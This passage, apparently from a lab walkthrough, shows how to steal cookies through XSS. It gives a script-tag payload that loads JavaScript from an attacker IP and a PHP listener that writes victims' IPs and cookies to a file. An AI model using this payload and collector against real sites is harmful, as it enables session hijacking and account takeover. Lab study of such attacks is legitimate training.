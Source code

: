 Now, we can change the URL in the XSS payload we found earlier to use `script.js` (`don't forget to replace OUR_IP with your VM IP in the JS script and the XSS payload`):

```html
<script src=http://10.10.16.46/script.js></script>
```
We can save the following PHP script as `index.php`, and re-run the PHP server again:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```